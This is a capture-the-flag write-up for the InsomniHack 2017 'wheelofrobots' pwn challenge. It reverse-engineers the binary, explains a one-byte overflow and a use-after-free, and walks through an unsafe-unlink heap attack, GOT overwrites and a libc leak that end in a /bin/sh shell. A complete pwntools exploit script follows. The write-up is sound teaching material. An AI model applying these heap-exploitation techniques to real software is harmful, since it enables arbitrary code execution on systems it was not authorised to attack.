









Wheelofrobots is a pwn challenge in InsomniHack’s 2017 CTF. This challenge involved adding, removing, and changing names of 6 different robots and spinning a wheel in which the program then exits.

## wheelofrobots

### Protections
```
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
```

### Program Code

Upon running the program, we get this:



So we can add robots, delete robots, change robot names, and start the wheel of robots. 

#### add robot function

Looking at the function that adds robots, it takes input using read into a char[4] global variable buffer that is zeroed out before reading input.





So we can choose from the six robots which one to add. The program just reads our input and if its a number from 1-6 and we havent exceeded 3 added robots, it will add the robot by turning on the global flag for that robot, set the malloc pointer to the robot’s global malloc pointer, and increment the number of robots by 1. It will also set the data of the chunk to the name of the robot which we will be able to change later.

```c
if (total_robots < 3) {
    switch (input_num) {
    case 1:
    if (tinny_tim_added = 0) {
        calloc_ptr = (undefined8 *) calloc(1,0×14);
        tinny_tim_added = 1;
        tim_calloc_ptr = calloc_ptr;
                /* Tonny Tom */
        *calloc_ptr = 0x69542079666954;
        *(undefined2 *) (calloc_ptr + 1) = 109;
        total_robots += 1;
    }
    break;
```

Some robots have special attributes, allowing us to choose how much we want to malloc for a robot with an attribute:

- Bender has intelligence that we can choose to be a value from 1-4 otherwise its 2
- Robot Devil has cruelty that we can choose to be a value from 1-99 otherwise its 20
- Destructor has powerful that we can choose to be any value > 0

These values will be multiplied by 0x14 as the value to calloc. So the chunk sizes that each robot calloc can be are:

- Tinny Tim: 0x20
- Bender: 0x20 - 0x60
- Robot Devil: 0x20 - 0x7d0
- Chainsmoker: 0xfa0
- Billionaire Bot: 0x9c40
- Destructor: Any size

#### A Vulnerability

But in the function that adds robots only, it reads in input for 5 characters into a buffer that is 4 characters long, so we get a 1 byte overflow into the global variable that is below it in memory. Many global variables are in this program including which are these in this order:

- The calloc pointer for each robot
- The input buffer
- Flags for each robot that indicates the robot has been added
- Total robots added variable
- The special attributes for each robot

Conveniently, the global variable immediately after the input buffer is the flag for bender, so we can artificially set whether bender has been added or not which will be very important for later



#### remove robot function

This function is relatively simple as it just takes input and if it is a number from 1-6 it will attempt to remove the robot by decrementing the total robot global variable, freeing the calloc pointer, and turning off the flag indicating that the robot is no longer added. But we can’t just remove any robot whenever since the program actually checks each robot’s flag to check if they are added. If the robot is not currently added, then nothing will happen and the robot will not be removed and if the robot is added it will remove it. And since we can change bender’s flag artificially, we can remove him whenever.

```c
undefined4 input_num;

print_robot_names ("Which robot do you want to remove from the wheel?");
printf("Your choice :");
memset (input,0,4);
input_num = read_input(input,4) ;
switch(input_num) {
case 1:
    if (tinny_tim_added != 0) {
        free(tim_calloc_ptr);
        tinny_tim_added = 0;
        total_robots += -1;
    }
    break;
case 2:
    if (bender_added != 0) {
        free(bender_calloc_ptr);
        bender_added = 0;
        total_robots += -1;
    }
    break;
```

#### Another Vulnerability

The calloc pointer for each robot is freed but never NULLed out which I did not catch on the first time reading this function. So the global pointers will still have references to the places in the heap where the calloc pointer once was, which is also another important part of solving this challenge.

#### change robot name function

Another relatively simple function. All it does is take input and if the value is between 1-6 we will be able to change the data at the calloc pointer for each corresponding robot. The amount we can write into the chunk is determined by the special attribute of the robot if it has one, otherwise its the static value so we cannot write more than we allocated

```c
undefined4 robot_name_input;

print_robot_names("Which robot\'s name do you want to change?");
printf("Your choice :");
memset(input,0,4) ;
robot_name_input = read_input(input,4);
switch(robot_name_input) {
case 1:
    if (tinny_tim_added != 0) {
        puts("Robot\'s name: ");
        read(0,tim_calloc_ptr,0x14);
    }
    break;
case 2:
    if (bender_added != 0) {
        puts("Robot\'s name: ");
        read(0,bender_calloc_ptr, bender_intelligence * 0x14);
    }
    break;
```

There is no vulnerability here.

#### start the wheel function

First this function checks whether total_robots < 3 and returns if it isnt. Then the  function will generate a random value between 1-6 using urandom. It then enters a switch statement. 

If the random value is 1 it checks if bender is added and if not, it prints out the string at tim’s calloc pointer which will just be tinny tim if the name was not changed. 

- If the value is 2, it does nothing

- If the value is 3-6 it will goto a specific part of a nested chain of if statements.

- The default action is to print ascii art of a demon and exits.

```c
rand_val = random_modulus (6);
switch (rand_val) {
default:
    goto switchD_00401674_caseD_0;
case 1:
    if (bender_added != 0) {
        print_fry(tim_calloc_ptr);
        goto LAB_00401720;
    }
    break;
case 2:
    break;
case 3:
    goto switchD_00401674_caseD_3;
case 4:
    goto switchD_00401674_caseD_4;
case 5:
    goto switchD_00401674_caseD_5;
case 6:
    goto switchD_00401674_caseD_6;
｝
if (bender_added == 0) {
switchD_00401674_caseD_3:
    if (devil_added == 0) {
switchD_00401674_caseD_4:
        if (chainsmoker_added == 0) {
switchD_00401674_caseD_5:
            if (billionaire_bot_added == 0) {
switchD_00401674_caseD_6:
                if (destructor_added == 0) {
switchD_00401674_caseD_0:
                    print_demon(" AH AH AH Welcome in Robot Hell!! ");
                }
```

The nested if statements just go through the list of the 6 robots until it finds one where the flag is turned on. Once it finds one where it's on, it prints ascii art of Fry from Futurama with the string at the calloc pointer for the specific bot.

So if the random number was 4, the program would then check if chainsmoker is added and if it is then it prints its chunk data, if not it checks billionaire bot, if not it checks destructor and if none are added it will print the demon. So it simulates spinning a wheel. The only exception to this is the first line where it checks if bender is added as the first if statement in the nested conditionals. If the program sees that bender is added, it will actually print ascii art of Bender from Furutrama and no data is printed which only happens if the random value is 2 and bender is added. 

After spinning the wheel, the program terminates.

### Exploitation

So we have a 1 byte buffer overflow allowing us to artificially turn on benders flag when we add a robot and the calloc pointers of robots are not NULLed out allowing for a use after free which are saved as global pointers. 

This sounds like an unsafe unlink attack. Most of the requirements are met. 

- This attack works best on heap pointers that are global variables since we will be able to begin writing data at the address of that pointer.
- Pointers are not NULL/ zeroed out
- Chunks need to be adjacent to the top chunk to consolidate
- Need to be able to change the metadata of another chunk

The only one we are missing is being able to overwrite the metadata of another chunk which will be difficult since the program does a good job of only being able to write how much we allocated, but the UAF will help get around this.

#### Getting a Heap Overflow

Since the pointers are not NULLed out, we can calloc a chunk so that upon another calloc, that new chunk address will be immediately after it in memory. Then free the two chunks and calloc a slightly larger chunk than the first so that the pointer of the second calloc that was made will point near the end of the new slightly larger chunk, allowing us to overwrite the metadata of the next chunk we allocate since the program will believe that where we would be writing to would be the start of a chunk when it's actually near the end.

It's important to note that the first chunk must be greater than the tcache max size or else it won't consolidate which means the first chunk in the unlink attack must be greater than 0x410.

So first we calloc the destructor bot with a size greater than 0x410. I set destructor’s powerful value to 53 because 53 * 0x14 = 0x424

`add_bot('6', '53')`

Then I add the bender bot with the max intelligence value of 4 (0x60 size) since I want to make sure I’ll be able to reach the metadata when overwriting it. This also initializes the bender pointer to this spot in memory.

`add_bot('2', '4')`

Then I remove destructor which puts the chunk in the unsorted bin and then remove bender to put it into the fastbin. The order of freeing doesn’t matter since freeing a fastbin on its own next to the top chunk will not consolidate it.

`remove_bot('6')`

`remove_bot('2')`

Now I need a way to remove these two chunks from the heap, so I add the chainsmoker bot which has a fixed size of 0xfa0 which is greater than the two chunks calloced earlier, causing the heap allocator to merge these two chunks together and add the remaining from the top chunk as one entire chunk. So this is combining two smaller chunks into one bigger one. I'm also setting the bender flag on here since the bender bot is now freed but I want to still be able to write at its address. [This “consolidation” stage occurs whenever a malloc request is made that is larger than a fastbin can service (i.e., for chunks over 512 bytes or 1024 bytes on 64-bit)](https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/)

`add_bot('4\x00\x00\x00\x01')`

Now since the chainsmoker bot is next to the top chunk and its size is greater than tcache max size, the heap allocator will consolidate it when we free it and merge it back with the top chunk. So now we’ve cleared out all the chunks in the heap.

`remove_bot('4')`

Now I calloc devil bot at a slightly larger size than the destructor bot from before so that the bender pointer will be pointing at the end of this chunk.

`add_bot('3', '55')`

Then I add destructor bot again with the same size as devil, this is the chunk who’s metadata will be overwritten. It is important that this chunk is greater than the tcache max size otherwise the heap allocator will not unlink the chunks.

`add_bot('6', '55')`

Now we have a pointer near the end of a chunk which will allow us to overwrite the metadata of another chunk. And since I flipped the flag for bender, the program thinks that bender is added and will allow me to write data at that location. So now we need to craft the fake chunk for the unsafe unlink.

#### unsafe unlink attack

The two chunks currently in the heap are at sizes 0x460, so I will craft my fake chunk to be 0x450 since I want the heap allocator to consolidate backwards and unlink my fake chunk. So I create fake_chunk_metadata and fill it with the necessary metadata and write it to devil bot’s chunk. I chose the address of devil bots address 0x00603100 but any of the global variables could work. It would actually be better to use 0x006030f8 since you would be able to overwrite chainsmoker’s pointer making the chances at the wheel spin better.

```python
fake_chunk_metadata   = p64(0x00000000)		    # filler
fake_chunk_metadata += p64(0x00000451)			# fake_chunk size
fake_chunk_metadata += p64(0x00603100 - 0x18)	# P->fd->bk = P
fake_chunk_metadata += p64(0x00603100 - 0x10)	# P->bk->fd = P

change_name('3', fake_chunk_metadata)
```

0x00603100 is the address of devil bot’s global calloc pointer. The fd needs to be the global pointer - 0x18 and the bk needs to be the global pointer = 0x10 so that we pass the security check in glibc that would prevent this from working with other memory addresses. The prev_in_use flag for the fake chunk size does not need to be set in order for the attack to work.

Then I craft the footer of the fake chunk which I will write to bender. The prev size needs to be set as the size of the fake chunk. Then the prev_in_use flag of the next chunk needs to be turned off for the unlink to work since it will see that this chunk says that the chunk before it (our fake chunk is free) and will unlink both this and the fake chunk.

```python
fake_chunk_footer  = p64(0x00000000) * 4
fake_chunk_footer += p64(0x00000450)	# prev_size
fake_chunk_footer += p64(0x00000460)	# prev_in_use flag off

change_name('2', fake_chunk_footer)
```

The fake chunk now looks like this in the heap. The blue is the devil bot and the yellow is the destructor bot.


<br />


The last step to do is remove the destructor bot to cause the heap allocator to unlink the chunks:

`remove_bot('6')`

And now when I check the address of devil bot’s calloc pointer in memory, it says that its at the address 0x006030e8 which is the same as 0x00603100 - 0x18 which is the same as the address of destructors global calloc pointer. So the next time we write to the devil bot, we will be overwriting the global variables.



### Popping a shell

Since there is partial RELRO, the first thing I thought of was overwriting a GOT address to system and call that function with a pointer to “/bin/sh” to pop a shell. This requires a libc leak to know where the functions in libc are because of ASLR.

The function that spins the wheel has a chance of printing the data at a calloc pointer, so if I make one or more of the global calloc pointers point to a GOT address, I will get a libc leak. Since the total number of bots added is less than 3, more need to be added before I can spin the wheel. Then I write to devil bot which will overwrite the destructor, bender, tim, devil, and billionaire bot calloc pointers to be 0x603018, 0x6030f0, 0x603098, 0x603018, and 0x603018 respectively. 

```python
add_bot('4')
add_bot('1')

h​​eap_leak_payload = p64(0x603018) + p64(0x6030f0) + p64(0x603098) + p64(0x603018) * 2

change_name('3', heap_leak_payload)
```

The address of free is at 0x603018 so I need to wheel to print any one of those 3 bots to get the leak. 

The address of exit is at 0x603098 so I set tims pointer to the GOT address of exit so I can overwrite it with the address of the change_name function (0x4013e0) so that the function doesn’t terminate once it prints the leak.

The address of benders global pointer is 0x6030f0 so I have benders pointer point to itself for a later part in the exploit.

`change_name('1', p64(0x4013e0))`

There is a problem I ran into though. No matter what, the address of free was never printed in a reasonable amount of time (since the wheel is random). The reason is because the address of free starts with a NULL byte so printf stops there and doesnt print the rest. So I need to change the LSB of the free address to something other than a NULL byte so that it gets printed. So I change the name of devil bot which points to free and write 0x01.

`change_name('3', b'\x01')`

And now I just need to keep running the program until I get lucky and it prints the address of free.



After this, the program will then call the change_name function since I overwrote the exit function in the GOT. So then I choose to change the name of destructor bot which points to free in the GOT and overwrite it with the address of system. 

From here all that's left is to do is choose who I want to free so I chose bender. I had set benders calloc pointer to point to itself earlier for this reason, so I can edit it now. So I change bender's pointer to be the address of the string “/bin/sh” in libc and then remove bender which calls free with the pointer of the string “/bin/sh” and a shell is popped. 

```python
p.send(b'3')
p.send(p64(system))

change_name('2', p64(next(libc.search(b'/bin/sh\x00'))))

remove_bot('2')
```

Since the wheel is random, I wrapped this logic in a while loop and kept running the program until I got the leak and popped a shell.



### Full Exploit Code

```python
from pwn import *

def add_bot(index, optional=None):
	p.send(b'1')
	print(p.recvuntil(b'choice :').decode(), 1)
	p.send(index.encode())
	print(p.recvuntil(b'choice :').decode(), index)

	if (index.startswith('2') or index.startswith('3') or index.startswith('6')):
		p.send(optional.encode())
		print(p.recvuntil(b': ').decode(), optional)

def remove_bot(index):
	p.send(b'2')
	print(p.recvuntil(b'choice :').decode(), 2)
	p.send(index.encode())
	print(p.recvuntil(b'choice :').decode(), index)

def change_name(index, name):
	print(p.recvuntil(b'choice :').decode(), 3)
	p.send(b'3')
	print(p.recvuntil(b'choice :').decode(), index)
	p.send(index.encode())
	print(p.recvuntil(b'name:').decode(), name)

	if (type(name) is str):
		p.send(name.encode())

	elif (type(name) is bytes):
		p.send(name)

def fill_tcache(size):
	add_bot('2', size)
	remove_bot('2')
	add_bot('2', size)
	remove_bot('2')
	add_bot('2', size)
	remove_bot('2')
	add_bot('2', size)
	remove_bot('2')
	add_bot('2', size)
	remove_bot('2')
	add_bot('2', size)
	remove_bot('2')
	add_bot('2', size)
	remove_bot('2')

context.clear(arch='amd64', terminal=['tmux', 'splitw', '-fh'])

main = 0x4017f2
before_input = 0x40185a
exit_in_wheel = 0x401725

gdbscript = f'''b *{main}
b *{before_input}
b *{exit_in_wheel}
'''
gdbscript += 'c\n' * 17

elf = context.binary = ELF('./wheelofrobots')
libc = elf.libc
elf.address = 0x400000

while (True):

	if args.GDB:
		p = gdb.debug('./wheelofrobots', gdbscript=gdbscript)
	else:
		p = process('./wheelofrobots')

	fill_tcache('4')

	fake_chunk_metadata  = p64(0x00000000)		# filler
	fake_chunk_metadata += p64(0x00000451)		# fake_chunk size
	fake_chunk_metadata += p64(0x00603100 - 0x18)	# P->fd->bk = P
	fake_chunk_metadata += p64(0x00603100 - 0x10)	# P->bk->fd = P

	fake_chunk_footer  = p64(0x00000000) * 4
	fake_chunk_footer += p64(0x00000450)	# prev_size
	fake_chunk_footer += p64(0x00000460)	# prev_in_use flag off

	heap_leak_payload = p64(0x603018) + p64(0x6030f0) + p64(0x603098) + p64(0x603018) * 2	# set tim malloc ptr to exit GOT addr and the other bot ptrs to puts GOT addr
	#		                ^ destructor	^ bender	    ^ tim		    ^ devil - billionaire

	add_bot('6', '53')			# malloc > fastbin size to move the pointer for bender ptr deeper in heap to overwrite chunk metadata
	add_bot('2', '4')			# add bender bot for 0x60 chunk
	remove_bot('6')				# remove destructor chunk, gets put into unsorted bin
	remove_bot('2')				# remove bender chunk, gets put in fastbin
	add_bot('4\x00\x00\x00\x01')		# add chainsmoker bot to consolidate fastbin chunk and unsorted bin chunk into one bigger allocated chunk
	remove_bot('4')				# remove this new 0xfa0 size chunk, consolidates because > its next to top chunk and size > tcache max size
	add_bot('3', '55')			# malloc more than the first malloc call so that bender ptr is near end of chunk to overwrite next chunk metadata
	add_bot('6', '55')			# add another chunke > tcache max size, metadata will be overwritten
	change_name('2', fake_chunk_footer)	# set prev_size and prev_in_use flag to off
	change_name('3', fake_chunk_metadata)	# set fake chunk metadata, will get new chunk at global pointer
	remove_bot('6')				# cause unsafe unlink

	add_bot('4')				# so we can spin wheel
	add_bot('1')				# add tim, which sets tims malloc ptr
	change_name('3', heap_leak_payload)	# use new chunk at destructor ptr - 0x18 to overwrite tim ptr to start of GOT

	change_name('1', p64(0x4013e0))		# set free to dummy value to overwrite again later and set _exit to instruction in main to restart main

	change_name('3', b'\x01')		# change LSB null byte of GOT free addr so that program prints entire addr

	print(p.recvuntil(b'choice :').decode())
	p.send(b'4')				# spin wheel to try and print value of free address

	free_addr = int.from_bytes(p.recvuntil(b'!\n', timeout=1)[-8:-2], byteorder='little') - 1

	if ((free_addr - libc.sym['free']) & 0xfffff != 0x00000):
		print('[+] Garbage libc base address')
		p.close()
		continue

	libc.address = free_addr - libc.sym['free']
	system = libc.sym['system']

	print('libc base addr @', hex(libc.address))
	print('system addr    @', hex(system))

	print(p.recvuntil(b'choice :').decode(), '3')
	p.send(b'3')					# exit now calls change name, so overwrite GOT free with system
	print(p.recvuntil(b'name:').decode(), p64(system))
	p.send(p64(system))

	change_name('2', p64(next(libc.search(b'/bin/sh\x00'))))

	remove_bot('2')				# call system with binsh (system('/bin/sh\0'))

	print('[+] Shell popped')

	break

p.interactive()
```